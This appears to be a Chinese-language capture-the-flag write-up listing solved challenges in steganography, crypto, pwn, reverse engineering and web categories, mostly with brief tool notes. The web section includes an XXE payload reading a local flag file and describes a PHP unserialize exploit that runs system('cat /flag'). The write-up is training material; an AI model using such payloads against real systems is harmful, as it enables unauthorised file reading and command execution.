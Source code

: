 # CTF WP (ZUENS2020)


## 安全杂项
- Misc入门指北 ✅
    - 附件PDF中的隐藏字段
- ez_LSB ✅
    - 使用StegSolve
    ![StegSolve]
- SSTV ✅
    ![SSTV]
- 掐住一只耳 ✅
    - 使用Audacity可以发现左声道的摩斯电码
    ![moss]
- Enchantment ✅
    - 使用tshark从enchantment.pcapng中找出图片-AI
    ![SGA]
    - 解开SGA银河字母[https://www.dcode.fr/standard-galactic-alphabet]
- ez_png ✅
    - 理解 PNG 文件结构:    -AI
       PNG 格式由一连串 chunk（数据块）组成，每个 chunk 包括：
      | 4字节长度 | 4字节块类型 | 数据区 | 4字节CRC |
      常见的块类型：
        IHDR：文件头信息（宽度、高度、颜色类型等）
        IDAT：图像压缩数据，可有多个
        IEND：文件尾标识
    - 使用工具查看chunk[https://www.nayuki.io/page/png-file-chunk-inspector]
    - 发现可疑块
    ![chunk]
    - 解码899 007部分 -AI
    ![Zlib]

## 从此开始
- 签到 ✅

## 二进制漏洞审计
- 0 二进制漏洞审计入门指北 ✅
- 1 ez_u64 ✅
- 2 EZtext
- fmt
- randomlock
- str_check
- syslock
- easylibc
- fmt_S

## 密码学
- Crypto入门指北 ✅
- ez_DES ✅
- baby_next ✅
- ez_square ✅
- ezlegendre ✅

## 逆向工程
- 逆向工程入门指北
- upx
- ez3
- flower
- A cup of tea
- mazegame

## Web安全与渗透测试
- 0 Web入门指北 ✅
- 01 第一章 神秘的手镯 ✅
- 02 第二章 初识金曜玄轨 ✅
- 03 第三章 向剑石！算天攻击! ✅
- 05 第五章 打上门来! ✅
- Moe笑传之猜猜爆 ✅
- 04 第四章 金曜极禁与七绝伶俐阵
- 06 第六章 藏经禁地？玄机初探!
- 07 第七章 灵媒妖穴与阴阳双生符
- 08 第八章 天行真言，星图显圣
- 10 第十章 天机符阵 ✅
    - 输入内容发现报错信息特点，使用题目已知元素
    - <?xml version="1.0"?>
    <!DOCTYPE 阵枢 [
        <!ENTITY xxe SYSTEM "file:///var/www/html/flag.txt">
    ]>
    <阵枢>
        <解析>&xxe;</解析>
    </阵枢>
    - 尝试使用 <阵枢> 作为根元素，<解析> 作为包含实体引用的子元素。-----AI
新的 XXE Payload 如下：
- 19 第十九章 星穹真相·补天归源 ✅
    - 观察页面发现题目是一段PHP代码
    - 发现核心漏洞：unserialize($_GET['person']) ----AI
    - 漏洞可以执行用户输入的内容
    - 在 PersonC::__Check() 方法中，绕过 flag 检查，并利用其中的 $name($age) 最终执行 system('cat /flag') ----AI



[StegSolve]:https://cdn.luogu.com.cn/upload/image_hosting/edtwi6vn.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[SSTV]:https://cdn.luogu.com.cn/upload/image_hosting/u4kcc7iv.png

[moss]:https://cdn.luogu.com.cn/upload/image_hosting/2k7ni7yn.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[SGA]:https://cdn.luogu.com.cn/upload/image_hosting/082kb65a.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[chunk]:https://cdn.luogu.com.cn/upload/image_hosting/bw3glndu.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[Zlib]:https://cdn.luogu.com.cn/upload/image_hosting/s1by0js1.png